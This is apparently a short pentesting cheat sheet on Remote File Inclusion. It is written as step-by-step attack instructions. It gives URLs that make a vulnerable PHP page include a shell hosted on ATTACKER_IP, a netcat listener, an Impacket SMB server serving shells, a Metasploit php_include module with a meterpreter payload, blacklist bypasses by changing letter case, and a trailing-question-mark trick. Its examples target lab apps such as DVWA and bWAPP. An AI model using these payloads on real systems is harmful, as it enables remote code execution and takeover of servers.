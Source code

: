 # Remote File Inclusion (RFI)

### Allows an attacker to inject external URL in a vulnerable backend PHP/Python/etc. function.

### Example: 

#### 1: Host payload in an http server then setup a listener.

#### 2: 

    http://site.com/index.php?file=http://ATTACKER_IP/shell.php

#### 3: Enjoy your shell!

### TIP: If you detect an LFI vulnerability on a windows host, try to check if you can send files over SMB to the server like:

#### 1) 

    nc -lvnp PORT (Setup listener)

#### 2) Set up an SMB Server with Impacket, then transfer the file 

    impacket-smbserver –smb2support sharepath /root/Desktop/Shells

    http://site.com/index.php?file=\\ATTACKER_IP\\FILE.php

## Alternate Method: Metasploit

    msf > use exploit/unix/webapp/php_include
    set payload php/meterpreter/bind_tcp
    set RHOST 192.168.0.2
    set PATH /DVWA/vulnerabilities/fi/
    set HEADERS " Cookie: security=low; PHPSESSID=4536da6h54ski6ftv09gdq35ik"
    exploit

# Blacklist Bypass

To bypass this implemented blacklist, we need to try all the different combinations like

    “HTTP:” or “hTTp:” or "HTTPS"

# Null Byte

Go for the Null Byte Attack, using up the question mark [?] character. Which will thus neutralize the problem of the “.php”, forcing the php server to ignore everything after that, as soon as it is interpreted.

    192.168.0.3/bWAPP/rlfi.php?language=http://192.168.0.5:8000/tryme.txt?


